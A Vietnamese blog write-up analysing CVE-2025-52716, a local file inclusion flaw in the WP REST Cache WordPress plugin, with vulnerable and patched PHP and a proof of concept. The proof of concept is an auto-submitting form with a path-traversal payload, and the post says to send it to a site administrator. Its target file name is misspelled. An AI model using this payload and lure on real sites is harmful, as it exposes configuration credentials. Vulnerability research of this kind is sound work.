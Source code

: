# CVE-2025-52716 Analysis & POC


<!--more-->

## CVE & Basic Info
Plugin **WP REST Cache** phiên bản **≤ 2025.1.0** chứa lỗ hổng **Local File Inclusion** cho phép kẻ tấn công không cần xác thực điều khiển tham số file trong lệnh `include/require`, từ đó chèn hoặc đọc các tệp cục bộ trên máy chủ (ví dụ file cấu hình chứa credential), dẫn tới rò rỉ thông tin nhạy cảm và trong một số cấu hình có thể dẫn tới thực thi mã.

* **CVE ID**: [CVE-2025-52716](https://www.cve.org/CVERecord?id=CVE-2025-52716)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 2025.1.0
* **Patched Versions**: 2025.1.1
* **CVSS severity**: High (7.5)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress WP REST Cache Plugin](https://wordpress.org/plugins/wp-rest-cache/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **WP REST Cache**: **2025.1.0** (vulnerable) và **2025.1.1** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

**Bản lỗi**:

```php {filename="class-admin.php v2025.1.0" hl_lines=[4,10,12]}
public function settings_page() {
    $this->settings_panels = apply_filters( 'wp_rest_cache/settings_panels', $this->settings_panels );

    $sub = filter_input( INPUT_GET, 'sub', FILTER_SANITIZE_FULL_SPECIAL_CHARS );
    if ( empty( $sub ) ) {
        $sub = 'settings';
    }
    include_once __DIR__ . '/partials/header.php';
    if ( isset( $this->settings_panels[ $sub ]['template'] ) ) {
        include_once $this->settings_panels[ $sub ]['template'];
    } elseif ( file_exists( __DIR__ . '/partials/sub-' . $sub . '.php' ) ) {
        include_once __DIR__ . '/partials/sub-' . $sub . '.php';
    } else {
        include_once __DIR__ . '/partials/sub-settings.php';
    }
}
```

Trong phiên bản lỗi, `$sub` là giá trị trả về của [`filter_input()`](https://www.php.net/manual/en/function.filter-input.php) lấy giá trị từ tham số GET (`?sub=...`) trong URL với filter [`FILTER_SANITIZE_FULL_SPECIAL_CHARS`](https://www.w3schools.com/php/filter_sanitize_special_chars.asp) dùng để esacape `"<>&` và các ký tự với ASCII value dưới 32. Tức không bao gồm `.(46)` và `/(47)`

`$sub` được concat vào chuỗi có `'.php'` sau cùng trước khi được `include_once` mà không có cơ chế bảo vệ trước **LFI**.

**Bản vá**:

```php {filename="class-admin.php v2025.1.1" hl_lines=[4,9,10,11,12,16,18]}
public function settings_page() {
    $this->settings_panels = apply_filters( 'wp_rest_cache/settings_panels', $this->settings_panels );

    $sub = filter_input( INPUT_GET, 'sub', FILTER_SANITIZE_FULL_SPECIAL_CHARS );
    if ( empty( $sub ) ) {
        $sub = 'settings';
    }

    $potential_sub_file = __DIR__ . '/partials/sub-' . $sub . '.php';
    if ( dirname( $potential_sub_file ) !== __DIR__ . '/partials' ) {
        $sub = 'settings';
    }

    include_once __DIR__ . '/partials/header.php';
    if ( isset( $this->settings_panels[ $sub ]['template'] ) ) {
        include_once $this->settings_panels[ $sub ]['template'];
    } elseif ( file_exists( __DIR__ . '/partials/sub-' . $sub . '.php' ) ) {
        include_once __DIR__ . '/partials/sub-' . $sub . '.php';
    } else {
        include_once __DIR__ . '/partials/sub-settings.php';
    }
}
```

Bản vá đã thêm cơ chế **kiểm tra vị trí file trước khi include**, đảm bảo file được nạp chỉ nằm trong thư mục `partials`. Nếu phát hiện đường dẫn ra ngoài (do chuỗi như `../`), plugin tự động chuyển về file mặc định an toàn. Nhờ đó, lỗ hổng **LFI** bị loại bỏ.

### Vulnerable Code 

`settings_page()` được đăng ký làm callback của submenu 

```php {filename="class-admin.php v2025.1.0" hl_lines=[8,9]}
add_submenu_page(
    'options-general.php',
    'WP REST Cache',
    'WP REST Cache',
    $capability,
    'wp-rest-cache',
    [
        $this,
        'settings_page',
    ]
);
```

Tức khi truy cập endpoint

```http
GET /wp-admin/options-general.php?page=wp-rest-cache HTTP/1.1
```

thì `settings_page()` được gọi.

## Exploit
### Proof of Concept (PoC)

#### Step 1

Tạo trang web có form, tự động gửi request với LFI payload

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <form action="http://localhost:80//wp-admin/options-general.php" method="get">
        <input type="text" name="page" value="wp-rest-cache">
        <input type="text" name="sub" value="/../../../../../../wp-cofnig">
    </form>
    <script>
        document.forms[0].submit()
    </script>
</body>
</html>
```

#### Step 2

Gửi link đến trang web cho admin hoặc người dùng có đặc quyền

> [!WARNING]
> Lỗ hổng này chỉ khai thác được trên **Windows**, vì hàm `file_exists()` xử lý đường dẫn khác nhau giữa hai hệ điều hành. Trên **Linux**, nếu đường dẫn chứa thư mục không tồn tại, hàm sẽ trả về `false`. Trong khi đó, trên **Windows**, cùng đường dẫn đó lại có thể trả về `true`, khiến điều kiện kiểm tra bị bỏ qua và lỗ hổng có thể kích hoạt.

## Conclusion

Phiên bản **≤ 2025.1.0** của WP REST Cache cho phép **Local File Inclusion** qua tham số `sub`. Bản vá **2025.1.1** giải quyết bằng cách kiểm tra vị trí file trước khi include — đảm bảo file chỉ được nạp nếu nằm trong thư mục `partials`, từ đó loại bỏ khả năng path traversal/LFI.

## Key takeaways

* Lấy dữ liệu trực tiếp từ request và ghép vào đường dẫn file là rủi ro LFI.
* Luôn xác thực **vị trí thực tế** của file (đường dẫn tuyệt đối) trước khi include.
* Kiểm soát phạm vi file bằng so sánh thư mục đích (whitelist) hiệu quả hơn chỉ sanitize ký tự.
* Kiểm tra trên nhiều nền tảng (Windows/Linux) vì hành vi hàm file có thể khác nhau.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress WP REST Cache Plugin <= 2025.1.0 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/wp-rest-cache/vulnerability/wordpress-wp-rest-cache-2025-1-0-local-file-inclusion-vulnerability)

---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-20-cve-2025-52716/  

